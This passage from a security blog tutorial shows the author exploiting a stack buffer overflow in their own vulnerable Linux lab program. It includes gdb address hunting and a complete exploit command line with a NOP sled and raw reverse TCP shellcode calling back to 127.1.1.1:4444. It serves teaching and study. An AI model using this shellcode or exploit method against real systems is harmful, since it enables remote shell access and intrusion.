 ```bash
./vuln $(python exploit.py)
```

![overflow 12](/assets/images/15/2021-10-20_16-07.png){:class="img-responsive"}    

As you can see, we put our shellcode which is `25` bytes in the middle of NOPs. And everything work perfectly, we are spawn a shell.

### reverse TCP shell

As an experiment, I tried to put another shellcode from my [post](/tutorial/2021/10/17/linux-shellcoding-2.html), reverse TCP shell on `127.1.1.1:4444`. Let's go to repeat the same steps but length of NOPs are larger - `96` bytes, because my shellcode is `74` bytes.    

Run my python script:
```bash
python super_shellcode.py -l 127.1.1.1 -p 4444
```

![overflow 13](/assets/images/15/2021-10-20_17-25.png){:class="img-responsive"}    

Then, find address for "jumping":      
```bash
gdb -q ./vuln
gdb-peda$ b overflow
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 96 - 74 - 4) + "\x90" * 96 + "\x44" * 74 + "\x42" * 4)')
gdb-peda$ x/1000xb $esp+500
```

![overflow 14](/assets/images/15/2021-10-20_18-05.png){:class="img-responsive"}    

In this example, we take the address `0xffffd3a4`.        

Then, finally, prepare listener on port `4444` and run:           
```bash
./vuln $(python -c 'print "\x41" * (272-96-74-4) + "\x90" * 96 + "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\xa4\xd3\xff\xff"')
```

![overflow 15](/assets/images/15/2021-10-20_17-24.png){:class="img-responsive"}    

So, everything is worked perfectly :)

> This is a practical case for educational purposes only.      

[Smashing The Stack For Fun And Profit by Aleph One](http://phrack.org/archives/issues/49/14.txt) - classic.
[Smashing The Stack for Fun and Profit in PDF](https://inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf)                                                     
[owasp buffer overflow attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)           
[exploit-db tutorial](https://www.exploit-db.com/docs/english/28475-linux-stack-based-buffer-overflows.pdf)                
[buffer overflow attack, brilliant video](https://www.youtube.com/watch?v=1S0aBV-Waeo)         
[my post about linux shellcoding part 1](/tutorial/2021/10/09/linux-shellcoding-1.html)           
[my post about linux shellcoding part 2](/tutorial/2021/10/17/linux-shellcoding-2.html)           
[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)            
[source code in Github](https://github.com/cocomelonc/2021-10-20-buffer-overflow-1)         

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*
